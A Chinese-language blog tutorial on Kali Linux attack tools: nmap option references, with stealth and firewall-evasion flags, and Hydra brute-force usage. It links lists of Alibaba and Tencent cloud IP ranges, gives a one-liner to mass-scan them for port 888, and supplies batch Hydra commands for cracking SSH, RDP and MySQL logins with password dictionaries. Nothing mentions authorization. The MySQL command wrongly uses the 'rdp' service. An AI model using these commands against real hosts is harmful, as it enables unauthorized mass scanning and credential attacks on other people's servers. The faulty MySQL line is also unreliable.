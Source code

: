 ```yaml
---

title: Kali 平台渗透教程
date: 2021-06-18 22:16:49
updated: 2021-06-18 22:16:49
categories: Linux
tags: [Linux, Kali]
description:
thumbnail: http://oss.whaleluo.top/blog/old/20210619154844.jpg
banner_img: http://oss.whaleluo.top/blog/old/20210619154844.jpg

---
```


![Kali](http://oss.whaleluo.top/blog/old/20210619154844.jpg-picsmall)

# Kali Linux 漏洞审计 批量扫描 弱密码撞库 教程

# Nmap 端口扫描

## 安装

`sudo apt-get install nmap`

## 语法

`nmap [扫描类型] [扫描参数] [hosts 地址与范围]`

## 扫描类型

- -sT TCP connect() 扫描，这是最基本的 TCP 扫描方式。这种扫描很容易被检测到，在目标主机的日志中会记录大批的连接请求以及错误信息。
- -sS TCP 同步扫描 (TCP SYN)，因为不必全部打开一个 TCP 连接，所以这项技术通常称为半开扫描 (half-open)。这项技术最大的好处是，很少有系统能够把这记入系统日志。不过，你需要 root 权限来定制 SYN 数据包。
- -sF,-sX,-sN 秘密 FIN 数据包扫描、圣诞树 (Xmas Tree)、空 (Null) 扫描模式。这些扫描方式的理论依据是：关闭的端口需要对你的探测包回应 RST 包，而打开的端口必需忽略有问题的包（参考 RFC 793 第 64 页）。
- -sP ping 扫描，用 ping 方式检查网络上哪些主机正在运行。当主机阻塞 ICMP echo 请求包是 ping 扫描是无效的。nmap 在任何情况下都会进行 ping 扫描，只有目标主机处于运行状态，才会进行后续的扫描。
- -sU UDP 的数据包进行扫描，如果你想知道在某台主机上提供哪些 UDP（用户数据报协议，RFC768) 服务，可以使用此选项。
- -sA ACK 扫描，这项高级的扫描方法通常可以用来穿过防火墙。 -sW 滑动窗口扫描，非常类似于 ACK 的扫描。
- -sR RPC 扫描，和其它不同的端口扫描方法结合使用。 -b FTP 反弹攻击 (bounce attack)，连接到防火墙后面的一台 FTP 服务器做代理，接着进行端口扫描。

## 扫描参数

- -P0 在扫描之前，不 ping 主机。
- -PT 扫描之前，使用 TCP ping 确定哪些主机正在运行。
- -PS 对于 root 用户，这个选项让 nmap 使用 SYN 包而不是 ACK 包来对目标主机进行扫描。
- -PI 设置这个选项，让 nmap 使用真正的 ping(ICMP echo 请求）来扫描目标主机是否正在运行。
- -PB 这是默认的 ping 扫描选项。它使用 ACK(-PT) 和 ICMP(-PI) 两种扫描类型并行扫描。如果防火墙能够过滤其中一种包，使用这种方法，你就能够穿过防火墙。
- -O 这个选项激活对 TCP/IP 指纹特征 (fingerprinting) 的扫描，获得远程主机的标志，也就是操作系统类型。
- -I 打开 nmap 的反向标志扫描功能。
- -f 使用碎片 IP 数据包发送 SYN、FIN、XMAS、NULL。包增加包过滤、入侵检测系统的难度，使其无法知道你的企图。
- -v 冗余模式。强烈推荐使用这个选项，它会给出扫描过程中的详细信息。
- -S <IP> 在一些情况下，nmap 可能无法确定你的源地址 (nmap 会告诉你）。在这种情况使用这个选项给出你的 IP 地址。
- -g port 设置扫描的源端口。一些天真的防火墙和包过滤器的规则集允许源端口为 DNS(53) 或者 FTP-DATA(20) 的包通过和实现连接。显然，如果攻击者把源端口修改为 20 或者 53，就可以摧毁防火墙的防护。
- -oN 把扫描结果重定向到一个可读的文件 logfilename 中。
- -oS 扫描结果输出到标准输出。
- --host_timeout 设置扫描一台主机的时间，以毫秒为单位。默认的情况下，没有超时限制。
- --max_rtt_timeout 设置对每次探测的等待时间，以毫秒为单位。如果超过这个时间限制就重传或者超时。默认值是大约 9000 毫秒。
- --min_rtt_timeout 设置 nmap 对每次探测至少等待你指定的时间，以毫秒为单位。
- -M count 置进行 TCP connect() 扫描时，最多使用多少个套接字进行并行的扫描。

## 端口状态

- Open（开放的）意味着目标机器上的应用程序正在该端口监听连接 / 报文。
- filtered（被过滤的） 意味着防火墙，过滤器或者其它网络障碍阻止了该端口被访问，Nmap 无法得知 它是 open（开放的） 还是 closed（关闭的）。
- closed（关闭的） 端口没有应用程序在它上面监听，但是他们随时可能开放。
- unfiltered（未被过滤的）当端口对 Nmap 的探测做出响应，但是 Nmap 无法确定它们是关闭还是开放时 open filtered 开放或者被过滤的 closed filtered 关闭或者被过滤的

## 扫描实例

> 阿里云服务器网段大全：[CSDN博客](https://blog.csdn.net/nxuu01/article/details/102779652) [CSDN-eagle_min大佬](https://blog.csdn.net/eagle_min/article/details/82260622)
>
> 腾讯云 ip 段：[CSDN-eagle_min大佬](https://blog.csdn.net/eagle_min/article/details/82260611)

1. 用 nmap 扫描该网段开放的 888 端口保存在 pma.txt 文件 格式要求：ip:port  
   `nmap -vv -n --open -p 888 网段 | awk -F'[ /]' '/Discovered open port/{print $NF":"$4}' >> pma.txt`

# Hydra 弱密码破解

## 安装

`sudo apt-get install hydra`

> Hydra 是一款**非常强大的暴力破解工具**，它是由著名的黑客组织 THC 开发的一款**开源暴力破解工具**。Hydra 是一个验证性质的工具，主要目的是：展示安全研究人员从**远程获取一个系统认证权限**。

## 常见参数

- -R: 继续从上一次进度接着破解
- -S: 大写，采用 SSL 链接
- -s <PORT>： 小写，可通过这个参数指定非默认端口
- -l <LOGIN>： 指定破解的用户，对特定用户破解
- -L <FILE>： 指定用户名字典
- p <PASS>： 小写，指定密码破解，少用，一般是采用密码字典
- -P <FILE>： 大写，指定密码字典
- -e <ns>： 可选选项，n：空密码试探，s：使用指定用户和密码试探
- -C <FILE>： 使用冒号分割格式，例如“登录名: 密码”来代替 -L/-P 参数
- -M <FILE>： 指定目标列表文件一行一条
- o <FILE>： 指定结果输出文件
- -f ： 在使用 -M 参数以后，找到第一对登录名或者密码的时候中止破解
- -t <TASKS>： 同时运行的线程数，默认为 16
- -w <TIME>： 设置最大超时的时间，单位秒，默认是 30s
- -v / -V： 显示详细过程
- server： 目标 ip
- service： 指定服务名，支持的服务和协议
- OPT： 可选项

---

## 实例分析

### 1.破解 Ssh

`hydra -M sship.txt ssh -L user.txt -P passwd.txt -e ns -f -vV -t 4 -o ssh.txt`

> -M 指定目标列表文件 一条一行
>
> -L 指定用户字典
>
> -P 指定密码字典
>
> -e ns 空密码试探
>
> -f 当破解一个成功密码就停止
>
> -o 把成功的输出到 ssh.txt 文件
>
> -vV 显示详细信息

### 2.破解 3389 远程登录

`hydra -M rdpip.txt rdp -L user.txt -P passwd.txt -e ns -f -vV -t 16 -o rdp.txt`

### 3.破解 MySQL 数据库

`hydra -M mysqlip.txt rdp -L user.txt -P passwd.txt -e ns -f -vV -t 16 -o mysql.txt`
